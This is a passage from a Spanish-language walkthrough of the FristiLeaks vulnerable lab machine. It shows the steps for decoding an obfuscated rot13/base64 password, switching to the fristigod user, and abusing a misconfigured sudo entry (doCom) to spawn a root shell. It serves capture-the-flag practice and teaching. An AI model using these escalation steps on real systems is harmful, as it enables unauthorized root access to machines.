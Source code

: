 ```python
>>> in_string_1 = in_string[::-1]
```
Aplicamos la codificación rot13 a la cadena invertida 'in_string_1' y la guardamos en 'in_string_2'
```python
>>> in_string_2 = in_string_1.encode("rot13")
```
Decodificamos la cadena resultante 'in_string_2' utilizando base64 y la imprimimos en la consola
```python
>>> print base64.b64decode(in_string_2)
```

## Decoficar con herramientas visuales
Podemos usar herramientas visuales como [rot13-decoder](https://cryptii.com/pipes/rot13-decoder) para decodificar la cadena codificada en rot13
```bash
=ESa0NXayZUZCVmclhGV0VGT
```
A continuación, usamos [reverse-string](https://onlinestringtools.com/reverse-string) para invertir el string obtenido al decodificar la cadena
```bash
TGV0VGhlcmVCZUZyaXN0aSE=
```
Finalmente, podemos usar [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)) para decodificar el string en base64 y obtener la contraseña.
```bash
LetThereBeFristi!
```
Con esta contraseña, podremos acceder al usuario fristigod
```bash
bash-4.1$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ whoami
whoami
fristigod
```
Ahora que tenemos acceso al usuario fristigod, vamos a ejecutar sudo -l para mostrar los comandos que el usuario puede ejecutar con privilegios de root
```bash
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```
Vemos que el usuario fristi puede ejecutar el comando especificado /var/fristigod/.secret_admin_stuff/doComcomo el usuario fristicon elevados privilegios, podemos usarlo para obtener una shell como usuario root
```bash
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
[sudo] password for fristigod: LetThereBeFristi!

bash-4.1# whoami
whoami
```